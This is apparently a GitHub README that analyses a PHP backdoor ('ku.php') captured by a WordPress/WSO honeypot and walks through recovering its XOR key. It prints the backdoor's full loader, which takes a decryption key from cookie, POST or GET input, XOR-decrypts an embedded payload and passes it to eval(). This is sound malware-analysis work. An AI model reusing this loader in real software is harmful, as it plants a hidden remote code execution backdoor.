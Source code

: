# xor-decoding
## Decoding Exclusive-or encoded malware payloads

[Similar or better tool](https://github.com/hellman/xortool)

[Same malware analysis in French](https://nyx.cx/analyse-dune-backdoor-php.html)

[Another analysis](https://blog.sucuri.net/2013/12/how-we-decoded-some-nasty-multi-level-encoded-malware.html)

[Different malware, same encoding and key](http://pastebin.com/1XE208s6)

During the summoer of 2014, I [wrote and ran](http://stratigery.com/phparasites/)
a honey pot that emulated a poorly maintained WordPress 2.9 installation. I ended up
including a simulated ["WSO" web shell](https://github.com/bediger4000/malware-phylogeny)
as part of the honey pot, because attackers included WSO web shells in so many of
their fake WordPress plugins. I had a two phase honey pot: first phase simulated
WordPress, the second phase simulated WSO.

Attackers use WSO as a file uploader more than they use it for anything else. I find
this puzzling, as WSO includes so much more functionality. I'm not a bottom feeding
WordPress cracker, but it would make more sense to have a smaller-size file uploader
to me. Attackers uploaded many pieces of malware using the honey pot's
simulated WSO web shell. One of these uploads occurred Wed Aug 28 04:05:52 2013 MDT.
The simulated WSO web shell kept a log of its environment, PHP "superglobal" values,
HTTP cookie values and many other things. The simulated web shell also allows file
uploads by emulating WSO's `uploadFile` command, part of the `FilesMan` "action".

The attacker, from 95.211.231.143 at the time, uploaded a file named "ku.php".
Unfortunately, no attacker tried to GET or POST to a "ku.php" URL.

I've included the simulated WSO web shell's logged data as file
[95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans)
in this repo, and the uploaded file as [95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile).

My goal is to document how to de-obfuscate and reverse engineer the "ku.php" file,
which ultimately involved finding XOR-encoding key strings.

## Initial Reading of ku.php

My initial read of `ku.php` showed me that, when executed, it tried to download
the contents of `http://smtp.botabota.biz/ku/ku.txt` to a local file, and return
the URL where someone could access the local file from the Internet. The last line
of `ku.php` didn't fit with the rest of the code. The last line was 12,941 characters
long, and contained some ugly code. After pretty printing, that 12,941 character
line looked like this:

    <?php
    for (
          $o = 0, $e = 'string of random-appearing characters',$d = '';
          @ord($e[$o]);
          $o++)
    ) {
        if ($o < 16) {
            $h[$e[$o]] = $o;
        } else {
            $d .= @chr(($h[$e[$o]] << 4) + $h[$e[++$o]]);
        }
    }
    if (!@isset($_SERVER)) {
        $_COOKIE =& $HTTP_COOKIE_VARS;
        $_POST =& $HTTP_POST_VARS;
        $_GET =& $HTTP_GET_VARS;
    }
    $k = $_COOKIE['key'];
    if (empty($k)) {
        $k = $_POST['key'];
    }
    if (empty($k)) {
        $k = $_GET['key'];
    }
    if (!@function_exists('decrypt')) {
        eval('function decrypt($e,$k){if(!$k){return;}$el=@strlen($e);$kl=@strlen($k);$rl=$el%$kl;$fl=$el-$rl;for($o=0;$o<$fl;$o+=$kl){$p=@substr($e,$o,$kl);$d.="$k"^"$p";}if($rl){$p=@substr($e,$fl,$rl);$k=@substr($k,0,$rl);$d.="$k"^"$p";}return($d);}');
    }
    $d = @decrypt($d, $k);
    eval($d);

`ku.php` seemed to have been backdoored: some oddly encoded bytes get decoded,
then decrypted, and then evaluated. The decryption function was included in `ku.php`, and
the decryption key would arrive as part of the HTTP request for `ku.php`.

Pretty-printing `function decrypt()` from the string in `ku.php` showed me that whatever
code was concealed was actually XOR-encoded. A key in the form of a printable text string
would be bitwise exclusively or-ed with the decoded bytes.

    function decrypt($e, $k)
    {
        if (!$k) {
            return;
        }
        $el = @strlen($e);
        $kl = @strlen($k);
        $rl = $el % $kl;
        $fl = $el - $rl;
        for ($o = 0; $o < $fl; $o += $kl) {
            $p = @substr($e, $o, $kl);
            $d .= "{$k}" ^ "{$p}";
        }
        if ($rl) {
            $p = @substr($e, $fl, $rl);
            $k = @substr($k, 0, $rl);
            $d .= "{$k}" ^ "{$p}";
        }
        return $d;
    }

Unfortunately, no attacker ever tried to access the "ku.php" code, so I did not
have the text string key.

## Getting the xor-encoded payload

1. Extract the 12,941 character payload, which comprises the last line of file `95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile`.
2. Change `eval($d)` call to `print($d);` in that last line. This gives us the first intermediate code.
3. Execute the first intermediate code.
4. Delete some lines in the output of the first intermediate code that pertain to finding the key string, and again change `eval(` to `print(`. That gives us the second intermediate code.
5. Execute the second intermediate code, whose output is the XOR-encoded mystery payload.

Executing `make puzzling.dat` does those 5 steps, with the XOR-encoded mystery paylod ending up in file `puzzling.dat`
The file `makefile` documents how to do all those steps with a Linux shell.

## Finding key size

The program `keysize` finds likely key length(s) by calculating
[Hamming Distance](https://en.wikipedia.org/wiki/Hamming_distance) of blocks of bytes in
xor-encoded ciphertext. That is, `keysize` iterates through possible key lengths, from 2 to 30
characters. It calculates the Hamming Distance, the number of bits that differ, between the
first chunk of bytes of key length, and every other key length-sized block of bytes in
the ciphertext. For example, if we use 9 bytes as possible key length, `keysize` compares
the block of bytes offsets 0-8, with blocks of bytes at offsets 9-17, 18-26, 27-35, ...

`keysize` normalizes the Hamming Distance by dividing by the number
of bytes it compared. Since ciphertext is rarely a multiple of key length, different key
lengths will have different unused chunks of bytes at the end of the file.

The key length that causes the smallest Normalized Hamming Distance
should be the key length. Apparently, this happens because characters do not appear
uniformly throughout any cleartext. 'E' occurs more than 'Q' in English language text.
A particular byte is more likely to occur at a given offset inside key length blocks
of bytes. Since cleartext bytes at the same offset inside key length sized blocks of bytes
get exclusive-or'ed with the same key byte, a slightly smaller Hamming Distance gets
calculated for the real key length.

The key length calculations aren't very demanding:

    $ make keysize
    $ ./keysize puzzling.dat > dat

![Hamming Distance vs Key Length](https://raw.githubusercontent.com/bediger4000/xor-decoding/master/key_length.png)

The above graph shows the result of running `keysize` over the xor-encoded
ciphertext in `puzzling.dat`.  The graph shows 3 outlier values for key length,
8, 12, and 24 bytes.


## Finding the key

Program `findkeys` guesses possible keys by putting the ciphertext into _keysize_ number of buffers,
where the Nth ciphertext byte goes into buffer number `N%keylength`. Assuming a particular
key length, all bytes that got xor-ed with a particular key byte M end up in buffer number M.



	$ make findkeys
	$ ./findkeys -j 5 -n 8 -N 24 -i puzzling.dat
    Read all 2625 bytes of cipher text from "puzzling.dat"
    Key length 8, first best key string "k"
    Key length 8, best key string "k"
    Key length 9, no good key string
    Key length 10, no good key string
    Key length 11, no good key string
    Key length 12, first best key string "SjJVkE6rkRYj"
    Key length 12, best key string "N/J^kM1rmR]j"
    Key length 13, no good key string
    Key length 14, no good key string
    Key length 15, no good key string
    Key length 16, no good key string
    Key length 17, no good key string
    Key length 18, no good key string
    Key length 19, no good key string
    Key length 20, no good key string
    Key length 21, no good key string
    Key length 22, first best key string "h"
    Key length 22, best key string "h"
    Key length 23, no good key string
    Best key length: 12
